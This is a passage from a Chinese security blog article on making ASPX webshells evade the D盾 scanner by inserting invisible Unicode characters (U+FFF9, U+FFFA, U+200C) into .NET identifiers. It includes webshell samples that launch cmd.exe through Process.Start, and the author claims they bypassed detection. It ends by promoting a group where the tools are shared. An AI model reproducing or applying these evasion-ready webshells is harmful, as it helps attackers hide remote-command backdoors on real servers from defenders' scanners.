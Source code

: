 行间标记注释符 `U+FFF9、U+0000FFF9`

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\uFFF9cess.Start("cmd.exe","/c calc");

    }

</script>

4.13 行间标记分割符
------------

行间标记分割符 `U+FFFA、U+0000FFFA`

<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false"

validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>

<script runat="server">

public void Page\_load(){

  System.Diagnostics.Pro\\uFFFAcess.Start("cmd.exe","/c calc");

    }

</script>

笔者从第4小节挑选3个WebShell文件，对D盾均达到免杀效果，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW8KyLyHuTolEeJMFxMNia658LpK6pI2xDH1KpLQuEXFHN7JjuXyhP0ubQ/640?wx_fmt=png)

但笔者之前写的风险检查助手却被D盾识别为1级可疑文件，从说明可知 WMI查询接口视为敏感操作，经过多次对比筛选后发现引入的命名空间System.Management被当作恶意特征，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW80BBwiaiaOUzI1t0GLiahhhG4SCX9p4D0hDEN8ficpznYQu3XE6icWrCNojA/640?wx_fmt=png)

在命名空间字符串任意位置插入\\u200C，例如变成 Sys\\u200Ctem.Mana\\u200Cgement 免杀成功顺利通过D盾查杀，编码后的助手文件运行也一切正常，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW88UIibsLGWho5p7kYGxPiccEdicw5Jdt0iaXe9Vrjh6PAB19sp8M9jBGepw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Yibg61GNvEncE4xHQmJLXMW8YC6yXGbUPxcgsoYu72z2KWvsAaFTtnCqLZmwjpFRNTP1gcpDxI2OCQ/640?wx_fmt=png)

相信通过本文介绍大家对.NET下的Unicode编码绕过有了初步的认知，由于Unicode通用性极强，所以其他语言诸如Java、PHP也会受其影响。下一篇将继续分享 .NET 免杀Trick，请大伙继续关注文章文章涉及的工具和PDF已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们 \[dotNet安全矩阵\] ，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。


from ： https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g
